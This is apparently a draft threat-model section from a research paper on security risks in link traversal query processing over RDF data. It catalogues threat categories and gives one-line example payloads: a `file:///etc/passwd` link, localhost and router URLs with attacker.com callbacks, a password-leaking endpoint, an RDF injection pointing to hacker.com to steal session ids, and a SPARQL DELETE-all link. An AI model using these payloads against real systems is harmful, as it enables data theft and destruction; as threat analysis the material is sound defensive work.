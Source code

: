 ## Data-driven Threats
{:#threats}

We list several security threats related to LTQP in the following categories:

* **Result Compromise**: Threats that lead to incorrect query results.
* **Malicious Linking**: Threats that cause links to be followed that cause unintended actions to be performed.
* **System Compromise**: Threats that cause the query engine to perform undesired operations.

### Result Compromise

#### Unauthorized statements

Carol defines a wrong name or bank account number for Alice
{:.todo}

### Malicious Linking

#### Local Linking

Links to URLs using the file scheme, such as `file:///etc/passwd`.
{:.todo}

Links to URLs on localhost, such as `http://localhost:1234/changePassword=123&callback=http://attacker.com/`.
{:.todo}

Links to URLs on LAN, such as `http://192.168.0.1/router/open-port=*`.
{:.todo}

#### Intermediate Result Leakage

**Depends on hybrid query execution**

Attacks in this category depend on the query engine to interpret certain URLs as queryable APIs,
which allows these APIs to collect intermediary query results.
The attacker in this case must have knowledge of the engine's query planner to intercept intermediary bindings.

Query over `http://my-private-data.org/passwords.ttl` and compromised TPF endpoint `http://attacker.com/?password=` (possible discovered via a link).
{:.todo}

#### Cross-Site Data Injection

Assuming a compromised API (`http://trusted.org/`) that is trusted by the user, but dynamically creates RDF responses based on URL parameters.
A malicious link to `http://trusted.org/?name=Bob". <> rdfs:seeAlso <http://hacker.com/getSessionIds>. <> foaf:name "abc`
could result in data injection and the query engine to follow a link to `http://hacker.com/getSessionIds`,
which may allow the attacker to steal the user's session id's.
{:.todo}

This is related to CORS
{:.todo}

#### Session Hijacking

Link to `http://my-sparql-endpoint?query=DELETE * WHERE { ?s ?p ?o }`, assuming that the user is actively authenticated for that endpoint during query execution.
{:.todo}

### System Compromise

#### Arbitrary Code Execution

e.g. JavaScript, which would be needed for dynamic HTML pages that inject JSON-LD, also leads to XSS
{:.todo}

#### Link Cycles

Links that cause a traversal cycle.
{:.todo}

#### System hogging

CPU/memory hogging, for example due to specifics of RDF serializations (long URLs, flaws in parsers, ...).
Or infinitely long documents
{:.todo}

#### Data Corruption

Crash due to syntax errors in documents
{:.todo}

#### Cross-query execution interaction

Potentially malicious interactions between parallel query executions.
For example, corruption or exploitation of shared caches.
{:.todo}
